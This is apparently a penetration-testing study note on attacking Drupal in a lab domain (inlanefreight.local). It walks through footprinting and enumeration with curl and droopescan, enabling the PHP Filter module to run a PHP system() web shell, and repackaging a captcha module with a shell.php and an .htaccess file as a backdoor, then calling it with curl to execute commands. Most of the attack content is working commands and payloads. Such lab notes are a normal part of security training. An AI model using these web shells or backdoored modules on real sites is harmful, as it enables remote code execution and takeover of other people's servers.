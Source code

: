 # Drupal Attack

### Discovery/Footprinting

```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal
```

### Enumeration

```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```
droopescan scan drupal -u http://drupal-qa.inlanefreight.local
```

### Attacking Drupal

#### Leveraging the PHP Filter Module

* after login select php filters

```
http://drupal-qa.inlanefreight.local/#overlay=admin/modules
```

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

```
http://drupal-qa.inlanefreight.local/#overlay=node/add
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

```
http://drupal-qa.inlanefreight.local/#overlay=node/add/page
```

#### From version 8 onwards,

* the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default.
* To leverage this functionality, we would have to install the module ourselves.

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

* Once downloaded go to `Administration` > `Reports` > `Available updates`.

```
http://drupal.inlanefreight.local/admin/reports/updates/install
```

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.
* Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

#### Uploading a Backdoored Module

* Drupal allows users with appropriate permissions to upload a new module.
* A backdoored module can be created by adding a shell to an existing module

```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```

```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

* Next, we need to create a .htaccess file to give ourselves access to the folder.
  * This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

```shell-session
mv shell.php .htaccess captcha
```

```shell-session
tar cvf captcha.tar.gz captcha/
```

* Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar
  * Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install`&#x20;
  * Browse to the backdoored Captcha archive and click `Install`.

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
